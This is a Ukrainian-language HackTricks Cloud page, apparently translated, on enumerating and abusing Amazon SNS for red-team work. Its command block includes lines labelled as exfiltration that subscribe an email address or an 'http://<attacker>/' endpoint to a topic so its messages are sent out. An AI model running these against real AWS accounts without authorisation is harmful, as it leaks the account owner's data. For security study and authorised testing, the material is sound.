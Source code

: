 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) описується як **повністю керована служба обміну повідомленнями**. Вона підтримує як **додаток-додатку** (A2A), так і **додаток-людина** (A2P) типи комунікації.

Ключові особливості для A2A комунікації включають **механізми публікації/підписки (pub/sub)**. Ці механізми вводять **теми**, які є критично важливими для забезпечення високої пропускної здатності, **пуш-орієнтованого, багато до багатьох обміну повідомленнями**. Ця функція є надзвичайно вигідною в сценаріях, що включають розподілені системи, мікросервіси та архітектури безсерверних подій. Використовуючи ці теми, системи видавців можуть ефективно розподіляти повідомлення на **широкий спектр систем підписників**, полегшуючи патерн обміну повідомленнями fanout.

### **Різниця з SQS**

**SQS** є **черговою** службою, яка дозволяє точкову комунікацію, забезпечуючи обробку повідомлень **одиничним споживачем**. Вона пропонує **доставку принаймні один раз**, підтримує стандартні та FIFO черги, а також дозволяє зберігання повідомлень для повторних спроб і затриманої обробки.\
З іншого боку, **SNS** є **службою на основі публікації/підписки**, що дозволяє **один до багатьох** комунікацію, транслюючи повідомлення **багатьом підписникам** одночасно. Вона підтримує **різні кінцеві точки підписки, такі як електронна пошта, SMS, функції Lambda та HTTP/HTTPS**, і надає механізми фільтрації для цільової доставки повідомлень.\
Хоча обидві служби дозволяють декомпозицію між компонентами в розподілених системах, SQS зосереджується на черговій комунікації, а SNS підкреслює подієву, fan-out комунікацію.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Зверніть увагу, що якщо **тема є типу FIFO**, можуть бути використані лише підписники, які використовують протокол **SQS** (HTTP або HTTPS не можуть бути використані).

Також, навіть якщо `--topic-arn` містить регіон, переконайтеся, що ви вказали правильний регіон у **`--region`**, інакше ви отримаєте помилку, яка виглядає так, ніби ви не маєте доступу, але проблема в регіоні.
{% endhint %}

#### Неавтентифікований доступ

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Підвищення привілеїв

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Після експлуатації

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Постійність

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Посилання

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

